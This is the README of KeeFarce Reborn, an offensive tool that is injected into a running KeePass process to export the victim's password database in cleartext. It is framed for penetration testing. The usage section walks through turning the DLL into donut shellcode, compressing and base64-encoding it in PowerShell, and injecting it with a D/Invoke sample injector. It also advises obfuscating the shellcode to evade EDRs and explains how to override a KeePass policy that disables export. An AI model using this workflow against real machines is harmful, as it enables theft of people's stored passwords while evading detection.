 # KeeFarce Reborn

A standalone DLL that exports databases in cleartext once injected in the KeePass process. 

Heavily inspired by the great [KeeFarce](https://github.com/denandz/KeeFarce), [KeeThief](https://github.com/GhostPack/KeeThief) and [KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax) projects.

## Yet another KeePass extraction tool, why ?

A few years ago, [@denandz](https://github.com/denandz) released [KeeFarce](https://github.com/denandz/KeeFarce), the first offensive tool designed to extract KeePass databases in cleartex. It works by injecting a DLL into the running process, then walks the heap using [ClrMD](https://github.com/microsoft/clrmd) to find necessary object and invoke KeePass's builtin extraction method using reflection. Its only downside at the time was that multiple files needed to be dropped on the target (the extraction DLL + ClrMD DLL + the injector + a bootstrap DLL).

A year later, [@tifkin_](https://twitter.com/tifkin_) and [@harmj0y](https://twitter.com/harmj0y) released an in-depth review of offensive techniques targeting KeePass (while not available on harmj0y's blog anymore, the articles can be found on Wayback Machine: [part 1](https://web.archive.org/web/20220123003835/http://www.harmj0y.net/blog/redteaming/a-case-study-in-attacking-keepass/), [part 2](https://web.archive.org/web/20220122225230/http://www.harmj0y.net/blog/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/)). It resulted in the release of [KeeThief](https://github.com/GhostPack/KeeThief), a tool able to decrypt KeePass' masterkey (including when alternative authentication method are used). It worked so well that KeePass developpers [added a parameter](https://sourceforge.net/p/keepass/discussion/329220/thread/62b0b650/) to mitigate this technique (it can be disabled by editing KeePass configuration file if the user have enough rights, which is pretty common).

These tools quickly became my go-to during penetration testing, but they soon became obsolete as their injection techniques (namely, the famous Win32 APIs gang of *VirtualAllocEx*, *WriteProcessMemory*, *CreateRemoteThread*, *WriteProcessMemory*, etc) now immediately triggers detection. [@snovvcrash](https://twitter.com/snovvcrash) addressed this issue by forking KeeThief (now in a private repo, but still accessible [here](https://github.com/d3lb3/KeeThief)) to improve the injection mechanism with D/Invoke, writing a [great article](https://hackmag.com/coding/keethief/) detailing the process he followed. As this demonstrated the faisability of maintaining KeeThief, I find it difficult to implement with other injection techniques, as KeeThief's code is tightly linked to its injector.

[@holly-cracker](https://github.com/holly-hacker) also released [KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax), which comes as a single DLL and only uses reflection to decrypt KeePass' masterkey. Inspired by this work, I decided to do the same with KeeFarce and write my own KeePass extraction tool with the following features:

- Self-sufficient ⇒ no interaction needed with the injector's code to work.
- Only uses builtin .NET libraries (in particular, no ClrMD) ⇒ better compatibility + single-file to make the injection easier.
- Exports the database ⇒ same as KeeFarce, no need to retrieve the .kdbx nor using a custom KeePass built to input the recovered masterkey.

## Building

As the code solely relies on .NET Framework with no external dependency, it should compile easily on Visual Studio 2015 and higher.

## Usage

Once the *KeePassReborn.dll* is compiled, **you will need to inject it yourself** in the targeted KeePass process.

As I personally find it easier to stealthily inject shellcode than DLL in a remote process, the first thing I typically start with is generating a position-independent shellcode from our DLL. It appears that [@odzhan](https://twitter.com/modexpblog?lang=fr) and [@TheWover](https://twitter.com/thewover)'s [donut](https://github.com/TheWover/donut) project perfectly suits our needs !

We compile donut from a commit in the dev branch, as it fixes an [issue in application domain management](https://github.com/TheWover/donut/issues/44) that would prevent us from running in the default domain.

```
git clone https://github.com/TheWover/donut/
cd donut
git checkout 9d781d8da571eb1499122fc0e2d6e89e5a43603c
```

We can easily build from Visual Studio's *x64 Native Tools Command Prompt VS* with *nmake* utility:

```
nmake -f Makefile.msvc
```

Generating the shellcode is as simple as:

```powershell
.\donut.exe "C:\KeeFarceReborn\KeePassReborn\bin\Release\KeeFarceReborn.dll" -c KeeFarceReborn.Program -m Main -e 1

  [ Donut shellcode generator v0.9.3
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "C:\KeeFarceReborn\KeePassReborn\bin\Release\KeeFarceReborn.dll"
  [ Entropy       : None
  [ File type     : .NET DLL
  [ Class         : KeeFarceReborn.Program
  [ Method        : Main
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "loader.bin"
```

> Note that `-e` is necessary to disable entropy, otherwise the injected process won't be in the default application domain.

Let's compress it in PowerShell for easier integration in the injector's code:

```powershell
$bytes = [System.IO.File]::ReadAllBytes("C:\donut\loader.bin")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$deflateStream = New-Object System.IO.Compression.DeflateStream($outStream, [System.IO.Compression.CompressionLevel]::Optimal)
$deflateStream.Write($bytes, 0, $bytes.Length)
$deflateStream.Dispose()
$outBytes = $outStream.ToArray()
$outStream.Dispose()
$b64 = [System.Convert]::ToBase64String($outBytes)
Write-Output $b64 | clip
```

You now have a payload ready to be injected with your favourite technique. If you don't know what to do now, I suggest you check [ired.team Code & Process Injection page](https://www.ired.team/offensive-security/code-injection-process-injection) to get familiar with the concept, then have a look into [direct syscalls](https://jhalon.github.io/utilizing-syscalls-in-csharp-2/) and [D/Invoke](https://thewover.github.io/Dynamic-Invoke/) which will probably do the job in most cases. [@SEKTOR7](https://institute.sektor7.net/)'s malware development courses are full of great learnings if you can afford them. 

As an example, let's inject our payload using [snovvcrash](https://twitter.com/snovvcrash)'s VeraCrypt code (itself inspired by  SEKTOR7 courses) that makes use of D/Invoke. To demonstrate, I copied the project in the *SampleInjector* folder, we only need to paste our compressed shellcode then compile in x64.

> This would of course need to be edited in order to bypass modern EDRs, but would allow you to test that everything behaves as expected

By running *.\SampleInjector.exe* alongside an open KeePass database, you will see debug messages being printed in MessageBox (which should obviously be removed when used in a real penetration testing scenario) then find the exported database in the current user's *%APPDATA%* (choosed by default, as KeePass will be sure to have write access). The exported XML file can later be imported in any KeePass database without asking for a password.

>  Note : if the export functionnality is disabled by policy, it can still be enabled by editing the KeePass.config.xml :
>
> ```xml
> <Policy>
>     <Export>false</Export>
> </Policy>
> ```

## Possible Caveats

### Detection

While the main issue concerning KeePass extraction tools detection is injectors, in-memory scan may also trigger alerts when analyzing the shellcode. You may want to obfuscate the shellcode and/or encrypt it when using with your injector.

Also, the code uses `Assembly.Load` to perform reflection once injected, and this behavior may be considered as malicious. I noticed that KeePass itself was sometimes using this method so I guess most protection won't be alerted. If you have insights on this, feel free to let me know.

### Compatibility

- The code only relies on .NET Framework with no external dependency, so should be fairly compatible with most targets.
- By default, KeeFarce Reborn Visual Studio solution targets .NET 4.6, which is installed by default on Windows 10 but can easily be changed.
- If .NET Framework is not installed on the target system, you can still install it manually from command line using `DISM.exe`.
- I only tested x64 payloads, but this should work as well for 32 bits architectures.

## Roadmap

- [ ] Check in details what parts of the DLL can trigger EDRs
- [ ] Provide an obfuscated version of the DLL
- [ ] Add option to log events into a file to debug while attacking a target, without using noisy message boxes

## Contribute

Pull requests are welcome. Feel free to open an issue or DM me on Twitter to suggest improvement.

## Credits

Bits of code where taken from the [KeeFarce](https://github.com/denandz/KeeFarce), [KeeThief](https://github.com/GhostPack/KeeThief) and [KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax) projects. 

The sample injection mechanism was directely taken from [snovvcrash](https://twitter.com/snovvcrash)'s projects.
